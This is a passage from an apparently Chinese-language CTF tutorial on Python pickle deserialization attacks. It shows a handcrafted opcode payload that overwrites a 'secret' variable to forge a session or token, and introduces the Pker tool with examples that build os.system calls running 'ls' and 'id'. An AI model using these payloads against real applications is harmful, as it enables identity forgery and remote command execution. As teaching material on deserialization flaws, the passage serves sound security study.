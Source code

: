 #### 变量覆盖

在session或token中，由于需要存储一些用户信息，所以我们常常能够看见pickle的身影。程序会将用户的各种信息序列化并存储在session或token中，以此来验证用户的身份

假如session或token是以明文的方式进行存储的，我们就有可能通过变量覆盖的方式进行身份伪造
这个和那个`0xgame`的题很像

```python
#secret.py

secret="This is a key"
```

```python
opcode=b'''c__main__
secret
(S'secret'
S'Hack!!!'
db.'''
```

我们首先通过`c`来获取`__main__.secret`模块，然后将字符串`secret`和`Hack!!!`压入栈中，然后通过字节码`d`将两个字符串组合成字典`{'secret':'Hack!!!'}`的形式。由于在pickle中，反序列化后的数据会以key-value的形式存储，所以secret模块中的变量`secret="This is a key"`，是以`{'secret':'This is a key'}`形式存储的。最后再通过字节码b来执行`__dict__.update()`，即`{'secret':'This is a key'}.update({'secret':'Hack!!!'})`，因此最终secret变量的值被覆盖成了`Hack!!!`

### 工具-Pker

#### Pker可以做到什么

- 变量赋值：存到memo中，保存memo下标和变量名即可
- 函数调用
- 类型字面量构造
- list和dict成员修改
- 对象成员变量修改

#### 使用

pker最主要的有三个函数`GLOBAL()`、`INST()`和`OBJ()`

```python
GLOBAL('os', 'system')             =>  cos\nsystem\n
INST('os', 'system', 'ls')         =>  (S'ls'\nios\nsystem\n
OBJ(GLOBAL('os', 'system'), 'ls')  =>  (cos\nsystem\nS'ls'\no
```

示例

```python
#pker_test.py
 
i = 0
s = 'id'
lst = [i]
tpl = (0,)
dct = {tpl: 0}
system = GLOBAL('os', 'system')
system(s)
return
```
